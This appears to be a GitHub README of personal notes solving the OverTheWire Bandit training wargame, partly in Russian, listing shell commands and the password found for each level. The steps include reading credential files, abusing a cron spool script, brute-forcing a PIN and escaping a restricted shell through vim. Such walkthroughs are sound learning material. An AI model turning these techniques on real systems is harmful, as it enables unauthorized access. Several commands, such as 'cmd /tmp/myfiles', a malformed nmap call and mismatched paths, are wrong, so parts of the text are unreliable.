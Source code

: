 # over-the-wire
<details>
   <summary> Level 0: </summary>
1) ssh bandit0@bandit.labs.overthewire.org -p 2220 
2) bandit0
</details>

<details>
   <summary>Level 0 -> Level 1:</summary>
1) ls 
2) cat readme (password is boJ9jbbUNNfktd78OOpsqOltutMc3MY1)
</details>
<details>
   <summary> Level 1 -> Level 2: </summary>
1) ssh bandit1@bandit.labs.overthewire.org -p 2220
2) cd ~
3) ls 
4) cat ./- (password is CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9)
</details>  

<details>
<summary>Level 2 -> Level 3: </summary>
1) ssh bandit2@bandit.labs.overthewire.org -p 2220 
2) ls
3) cat spaces\ in\ this\ filename (password is UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK)
</details> 

<details>
<summary>Level 3 -> Level 4:</summary>
1) ssh bandit3@bandit.labs.overthewire.org -p 2220
2) cd inhere/
3) ls
4) cat .hidden (password is pIwrPrtPN36QITSp3EQaw936yaFoFgAB)
</details>

<details>
<summary> Level 4 -> Level 5:</summary>
1) ssh bandit4@bandit.labs.overthewire.org -p 2220
2) cd inhere/
3) find . -type f -exec file {} + | grep ASCII (password is koReBOKuIDDepwhWk7jZC0RTdopnAYKh)
</details>

<details>
<summary> Level 5 -> Level 6: </summary>
1) ssh bandit5@bandit.labs.overthewire.org -p 2220
2) find . -size 1033c -type f -exec file {} + | grep ASCII (output is "./maybehere07/.file2: ASCII text, with very long lines")
3) cat ./maybehere07/.file2 (password is DXjZPULLxYr17uwoI01bNLQbtFemEgo7)
</details>

<details>
<summary> Level 6 - > Level 7: </summary>
1) ssh bandit6@bandit.labs.overthewire.org -p 2220
2) cd /
3) find . -size 33c -user bandit7 -group bandit6 (file is here : /var/lib/dpkg/info/bandit7.password)
4) cat /var/lib/dpkg/info/bandit7.password (password is HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs)
</details>

<details>
<summary>Level 7 -> Level 8:</summary>
1) ssh bandit7@bandit.labs.overthewire.org -p 2220
2) cat data.txt | grep millionth (password is cvX2JJa4CFALtqS87jk27qwqGhBM9plV)
</details>
<details>
<summary>Level 8 -> Level 9:</summary>
1) ssh bandit8@bandit.labs.overthewire.org -p 2220
2) cat data.txt | sort | uniq -u (password is UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR)
</details>
<details>
<summary>Level 9 -> Level 10: </summary>
1) ssh bandit9@bandit.labs.overthewire.org -p 2220
2) strings data.txt | grep -E "==" (password is truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk)
</details>

<details>   
<summary>Level 10 -> Level 11:</summary>
1) ssh bandit10@bandit.labs.overthewire.org -p 2220 
2) base64 --decode data.txt (password is IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR)
</details>

<details>
<summary>Level 11 -> Level 12:</summary>
1) ssh bandit11@bandit.labs.overthewire.org -p 2220
2) cat data.txt | tr '[a-z]' '[n-za-m]' | tr '[A-Z]' '[N-ZA-M]' (password is 5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu)
</details>

<details>
<summary>Level 12 -> Level 13:</summary>
1) ssh bandit12@bandit.labs.overthewire.org -p 2220
2) mkdir /tmp/pass
3) cp data.txt /tmp/pass
4) file data1 (data1: gzip compressed data, was "data2.bin", last modified: Thu May  7 18:14:30 2020, max compression, from Unix)
5) mv data1 data1.gz
6) ls (data1.gz  data.txt)
7) gunzip data1.gz 
8) ls (data1  data.txt)
9) file data1 (data1: bzip2 compressed data, block size = 900k)
10) bzip2 -d data1 (bzip2: Can't guess original name for data1 -- using data1.out)
11) ls (data1.out  data.txt)
12) file data1.out (data1.out: gzip compressed data, was "data4.bin", last modified: Thu May  7 18:14:30 2020, max compression, from Unix)
13) mv data1.out data1.gz
14) ls (data1.gz  data.txt)
15) gunzip data1.gz
16) ls (data1  data.txt)
17) file data1 (data1: POSIX tar archive (GNU))
18) tar xvf data1
19) ls (data1  data5.bin  data.txt)
20) file data5.bin (data5.bin: POSIX tar archive (GNU))
21) tar xvf data5.bin (data6.bin)
22) file data6.bin (data6.bin: bzip2 compressed data, block size = 900k)
23) bzip2 -d data6.bin (bzip2: Can't guess original name for data6.bin -- using data6.bin.out)
24) ls (data1  data5.bin  data6.bin.out  data.txt)
25) file data6.bin.out (data6.bin.out: POSIX tar archive (GNU))
26) tar xvf data6.bin.out
27) ls (data1  data5.bin  data6.bin.out  data8.bin  data.txt)
28) file data8.bin (data8.bin: gzip compressed data, was "data9.bin", last modified: Thu May  7 18:14:30 2020, max compression, from Unix)
29) mv data8.bin data8.gz
30) gunzip data8.gz
31) ls (data1  data5.bin  data6.bin.out  data8  data.txt)
32) file data8 (data8: ASCII text)
33) cat data8 (The password is 8ZjyCRiBWFYkneahHwxCv3wb2a1ORpYL)
</details>

<details>
 <summary>Level 13 -> Level 14: </summary>
1) ssh bandit13@bandit.labs.overthewire.org -p 2220
2) ssh bandit14@localhost -i sshkey.private
3) cd /etc/bandit_pass
4) cat bandit14 (4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e)
</details>

<details>
 <summary>Level 14 -> Level 15: </summary>
1) nc localhost 30000
2) 4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e (Correct! BfMYroe26WYalil77FoDi9qh59eK5xNr)
</details>
<details>
 <summary>Level 15 -> Level 16: </summary>
1) ssh bandit15@bandit.labs.overthewire.org -p 2220
2) openssl s_client -connect localhost:30001 -ign_eof 
3) BfMYroe26WYalil77FoDi9qh59eK5xNr (Correct! cluFn7wTiGryunymYOu4RcffSxQluehd)
</details>

<details>   
 <summary>Level 16 -> Level 17: </summary>
1) ssh bandit16@bandit.labs.overthewire.org -p 2220
2) mkdir /tmp/myfiles
3) cmd /tmp/myfiles
4) nmap -31000-32000 localhost | awk '/open/{print $1+0}' > ports.txt (31046 31518 31691 31790 31960)
5) for i in $(cat ports.txt); do print $i | echo "cluFn7wTiGryunymYOu4RcffSxQluehd" | timeout 1 openssl s_client -connect localhost:$i -quiet; done
6) cat /etc/bandit_pass/bandit16 | openssl s_client -connect localhost:31790 -quiet > ssh22.private
7) Удаляем "Correct!" из ssh22.private
8) chmod 400 ssh22.private
9) ssh -i ssh22.private bandit17@localhost
</details>
   
<details>   
 <summary>Level 17 -> Level 18: </summary>
1) diff passwords.new passwords.old (< kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd)
</details>
   
<details>   
 <summary>Level 18 -> Level 19: </summary>
1) ssh bandit18@bandit.labs.overthewire.org -p 2220 "cat ~/readme" (IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x)
</details>
   
<details>   
 <summary>Level 19 -> Level 20: </summary>
1) ssh bandit19@bandit.labs.overthewire.org -p 2220
2) ./bandit20-do
3) ./bandit20-do id
4) ./bandit20-do cat /etc/bandit_pass/bandit20 (password is GbKksEFF4yrVs6il55v6gwY5aVje5f0j)
</details>
<details>   
 <summary>Level 20 -> Level 21: </summary>
1) echo "GbKksEFF4yrVs6il55v6gwY5aVje5f0j" | nc -l localhost -p 10000 &
2) ./suconnect 10000 (password is gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr)
</details>
<details>
 <summary>Level 21 -> Level 22: </summary>
1) cd /etc/cron.d
2) ls
3) cat /etc/cron.d/cronjob_bandit22
4) cat /usr/bin/cronjob_bandit22.sh
5) cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv (password is Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI)
</details>
<details>   
 <summary>Level 22 -> Level 23: </summary>
1) cd /etc/cron.d
2) ls
3) cat cronjob_bandit23
4) cat /usr/bin/cronjob_bandit23.sh
5) echo I am user bandit23 | md5sum | cut -d ' ' -f 1 (8ca319486bfbbc3663ea0fbe81326349)
6) cat /tmp/8ca319486bfbbc3663ea0fbe81326349 (jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n)
</details>
<details>   
 <summary>Level 23 -> Level 24: </summary>
1) mkdir /tmp/pass_papka
2) cd /tmp/pass_papka
3) touch passSH.sh
4) chmod 777 passSH.sh
5) vim passSH.sh
5.1) 
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/passpapka/pass_two
6) touch pass_two
7) chmod 666 pass_two
8) cp passSH.sh /var/spool/bandit24/
9) cat pass_two (UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ)
</details>
<details>
 <summary>Level 24 -> Level 25: </summary>
1) mkdir /tmp/kekw
2) cd /tmp/kekw
3) touch sh_comm.sh 
4) chmod 777 sh_comm.sh
5) vim sh_comm.sh
   #!/bin/bash
   for i in {0000..9999}
   do
      echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
   done
6) touch all_nums.txt
7) chmod 777 all_nums.txt
8) ./sh_comm.sh > all_nums.txt
9) nc localhost 30002 < all_nums.txt (password is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG)
</details>
   
<details>
 <summary>Level 25 -> Level 26: </summary>
1) ssh bandit26@localhost -i bandit26.sshkey 
2) Соединение автоматически завершается
3) cat /etc/passwd | grep bandit26 (bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext)
4) cat /usr/bin/showtext (
   #!/bin/sh
   more ~/text.txt
   exit 0
)
5) Пароль находится в папке /etc/bandit_pass/bandit26, значит нужно зайти в него перед выходом из системы
6) Уменьшаю окно терминала
7) ssh 
8) Логотип "bandit" полностью не отображается, нажимаю "v"
9) Ввожу :e /etc/bandit_pass/bandit26 чтобы открыть файл с паролем
10) Пароль - 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
</details>
<details>
 <summary>Level 26 -> Level 27: </summary>
1) Вхожу обратно в vim, где искал пароль от этого задания
2) Ввожу :set shell=/bin/bash
3) Открываю :shell
4) ls 
5) ./bandit27-do
6) ./bandit27-do cat /etc/bandit_pass/bandit27 (3ba3118a22e93127a4ed485be72ef5ea)
</details>
<details>
 <summary>Level 27 -> Level 28: </summary>
1) git clone ssh://bandit27-git@localhost/home/bandit27-git/repo (fatal: could not create work tree dir 'repo': Permission denied)
2) mkdir /tmp/gitTask
3) cd /tmp/gitTask
4) git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
5) ls
6) cd repo/
7) ls
8) cat README (The password to the next level is: 0ef186ac70e04ea33b4c1853d2526fa2)
</details>
<details>
 <summary>Level 28 -> Level 29: </summary>
1) mkdir /tmp/git4
2) cd /tmp/git4 
3) git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
4) cd repo
5) ls
6) git log -p (bbc96594b4e001778eee9975372716b2)
</details>
<details>
 <summary>Level 29 -> Level 30: </summary>
1) mkdir /tmp/gitTask111
2) cd /tmp/gitTask111
3) git clone ssh://bandit29-git@localhost/home/bandit29-git/repo
4) cd repo
5) cat README.md
6) git branch -r
7) git checkout dev
8) cat README.MD (5b90576bedb2cc04c86a9e924ce42faf)
</details>
<details>   
 <summary>Level 30 -> Level 31: </summary>
1) mkdir /tmp/gitNorm
2) cd /tmp/gitNorm
3) git clone ssh://bandit30-git@localhost/home/bandit29-git/repo
4) cd repo
5) cat README.md (рассмешнил :|)
6) git tag (secret)
7) git show secret (47e603bb428404d265f59c42920d81e5)
</details>
<details>
 <summary>Level 31 -> Level 32: </summary>
1) mkdir /tmp/gitTask31
2) cd /tmp/gitTask31
3) git clone ssh://bandit31-git@localhost/home/bandit31-git/repo
4) cd repo/
5) cat README.md
6) echo "May I come in?" > key.txt
7) git add -f key.txt
8) git commit -m "lol"
9) git push (56a9bf19c63d650ce78e6ec0354ee45e)
</details>
<details>
 <summary>Level 32 -> Level 33: </summary>
1) $0 (название файла сценария, как бы запускаем sh еще раз)
2) cat /etc/bandit_pass/bandit33 (c9c3199ddf4121b10cf581a98d51caee)
</details>
<details>
 <summary>Level 33 -> Level 34: </summary>
</details>
